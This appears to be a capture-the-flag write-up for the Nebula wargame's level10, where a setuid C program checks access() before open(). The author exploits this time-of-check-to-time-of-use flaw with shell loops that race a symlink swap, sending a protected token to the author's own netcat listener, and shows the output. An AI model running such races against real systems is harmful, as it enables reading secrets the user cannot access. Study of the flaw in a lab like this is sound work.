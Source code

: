 ```c
          printf("Unable to write banner to host %s\n", host);
          exit(EXIT_FAILURE);
      }
#undef HITHERE

      printf("Connected!\nSending file .. "); fflush(stdout);

      ffd = open(file, O_RDONLY);
      if(ffd == -1) {
          printf("Damn. Unable to open file\n");
          exit(EXIT_FAILURE);
      }

      rc = read(ffd, buffer, sizeof(buffer));
      if(rc == -1) {
          printf("Unable to read from file: %s\n", strerror(errno));
          exit(EXIT_FAILURE);
      }

      write(fd, buffer, rc);

      printf("wrote file!\n");

  } else {
      printf("You don't have access to %s\n", file);
  }
}
```

As the description has it, this program seems to read a file and send its contents to a user specified IP address on tcp/18211. I tested this by opening a netcat listener with `nc -lk 18211` and sending myself a file to see what comes out. Obviously, I was not able to send the token that was in the same directory as the `flag10` binary as I did not have read access to this.

The problem with this program through is the fact that it checks if the file can be read using `access()`, then only later opens it using `open()`. Using this method it may be possible to change out the file before it hits the `open()` method. Symlinks are the goto for this kind of problem as they can be easily swapped out by relinking a file as the program runs. It of course helps that the file to read can be user specified. There is actually an acronym for this kind of bug called [TOCTTOU](http://en.wikipedia.org/wiki/Time_of_check_to_time_of_use). The Wikipedia article describes almost exactly the same scenario as we have here.

My plan of attack was to create a race condition. I would create an infinite loop that relinks a file from something I can actually read back to the token file and vice versa. While this continuous relinking occurs, I would run the affected binary, hoping that we would catch a case where the link swaps out as hoped for sending the token contents to my netcat listener. To increase my chances of the race condition occurring, I put the `flag10` binary in its own loop as well.

So, to solve level10:

```bash
level10@nebula:/home/flag10$ while true; do ln -sf /var/tmp/shell.c /var/tmp/flag10-token; ln -sf /home/flag10/token /var/tmp/flag10-token; done &
[1] 14219

# the counties symlink swap is now happening between /var/tmp/shell.c which I can read and /home/flag10/token which I cant.

level10@nebula:/home/flag10$ while true; do ./flag10 /var/tmp/flag10-token 192.168.217.1; done
You don't have access to /var/tmp/flag10-token
You don't have access to /var/tmp/flag10-token
Connecting to 192.168.217.1:18211 .. Connected!
Sending file .. wrote file!
Connecting to 192.168.217.1:18211 .. Connected!
Sending file .. wrote file!
```